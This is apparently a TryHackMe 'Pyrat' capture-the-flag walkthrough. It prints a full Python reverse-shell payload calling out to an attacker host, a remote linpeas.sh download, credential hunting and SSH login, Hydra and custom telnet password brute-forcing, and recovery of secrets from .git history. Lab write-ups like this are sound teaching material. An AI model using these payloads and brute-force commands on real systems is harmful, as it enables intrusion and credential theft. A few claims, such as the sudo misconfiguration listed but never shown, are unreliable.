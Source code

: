 # Pyrat Challenge - TryHackMe

This document will provide a detailed and structured walkthrough of my entire process, covering each step comprehensively to ensure clarity and depth of understanding. It will outline the methodologies, tools, and techniques employed, along with any challenges encountered and the solutions implemented. 

Let's get started!

---

## Context

**Scenario:** Pyrat receives a curious response from an HTTP server, leading to a potential Python code execution vulnerability. With a carefully crafted payload, we can gain a shell on the machine. By exploring the directories, we uncover a folder containing credentials. Further investigation reveals details about an older version of the application. Using a custom script, we find a hidden endpoint and fuzz passwords to retrieve a valid credential, ultimately achieving root access.

---

## Enumeration

### **Nmap Scan**

The first step in any CTF challenge is reconnaissance. We begin with an Nmap scan:

```bash
nmap -A 10.10.16.135
```

#### **Key Findings:**
- **SSH (22/tcp) - OpenSSH 8.2p1**
- **HTTP (8000/tcp) - SimpleHTTP/0.6 Python/3.11.2**
- Various error messages hinting at Python processing issues.

Python 3.11 is known for vulnerabilities, which suggests a potential attack vector.

---

## Initial Foothold

### **Exploring Port 8000**

Browsing `http://10.10.16.135:8000` resulted in a message:

> *"Try a more basic connection!"*

This led me to try different approaches:
- **Curl requests** (`curl -v 10.10.16.135:8000`)
- **Burp Suite** for deeper analysis
- **Testing different HTTP methods**

Each returned similar errors, indicating that standard web traffic wasn’t the expected input.

### **Switching to Telnet**

Given the hint about a "basic connection," I attempted netcat:

```bash
nc 10.10.16.135 8000
```

Success! This confirmed that the service expects raw text input, which led me to test Python commands.

### **Executing Python Commands**

Testing a basic Python command:

```python
print("Hello")
```

This confirmed that user input was being evaluated as Python code. I attempted a reverse shell payload but initially failed due to syntax restrictions.

A small modification allowed me to bypass restrictions and gain a reverse shell:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```

Listener setup:

```bash
nc -lvnp 4444
```

Shell acquired!

---

## Privilege Escalation

### **Enumerating Users and Files**

Inside the shell, checking available users:

```bash
ls /home
```

Restricted access prevented me from accessing user directories directly. However, using `cd /home` instead of staying in `/root` allowed me to explore further.

### **Using LinPEAS for Automated Enumeration**

```bash
wget http://<attack-machine-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Key Finding:
- **/opt/.git/** - Contains an old version of the application.
- **Possible credential leaks.**

### **Extracting Credentials**

Searching for potential credential storage:

```bash
find /opt -iname "*cred*" 2>/dev/null
```
```bash
find /opt -iname "*config*" 2>/dev/null
```
Found a config file containg credentials for github user Think.
Tried access ssh connection using the credentials.
```bash
ssh "think"@ip
```
Got a shell connection to user Think with user.txt in the directory with the flag.


Also, Found a `.git` folder! Listing commits revealed `pyrat.py.old`, an earlier version of the application.

```bash
git log --oneline
```

Restoring the file:

```bash
git checkout pyrat.py.old
```

Reading through it, I found a hardcoded admin endpoint and password function.

---

## Gaining Root Access

### **Password Fuzzing**

Given the admin endpoint, I attempted manual authentication but failed. A custom script was needed.

Using Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.16.135 -s 8000 http-post-form "/admin:username=admin&password=^PASS^:Incorrect password"
```

After several failed attempts, adjusting the script for Telnet interaction was necessary. Writing a custom Python brute-forcer:

```python
import telnetlib

host = "10.10.16.135"
user = "admin"
passwords = ["password1", "password2", "supersecure"]

tn = telnetlib.Telnet(host, 8000)

tn.read_until(b"login:")
tn.write(user.encode("ascii") + b"\n")

for password in passwords:
    tn.write(password.encode("ascii") + b"\n")
    response = tn.read_until(b"Incorrect password", timeout=2)
    if b"Welcome" in response:
        print(f"Password found: {password}")
        break

tn.close()
```

Eventually, a valid password was found, allowing shell access with root priveledge and root.txt file in the directory contaning the flag.

---

## **Summary**

### **Findings:**
- Python-based Telnet server vulnerable to command injection
- Hardcoded admin credentials in old `.git` history
- Brute-force attack via Telnet to uncover password
- Misconfigured `sudo` permissions for root escalation

### **Lessons Learned:**
- Always enumerate all ports (`nmap` caught port 8000, which was key)
- Checking `.git` history can reveal sensitive data
- Automating tasks (brute-force via script) speeds up exploitation

Root flag retrieved. Challenge completed!

---

## **Closing Thoughts**

This CTF was a great example of real-world misconfigurations that attackers can exploit. Python command injection, exposed `.git` folders, and improper `sudo` configurations are common vulnerabilities. Writing this walkthrough reinforced key penetration testing skills and debugging strategies.

On to the next challenge!

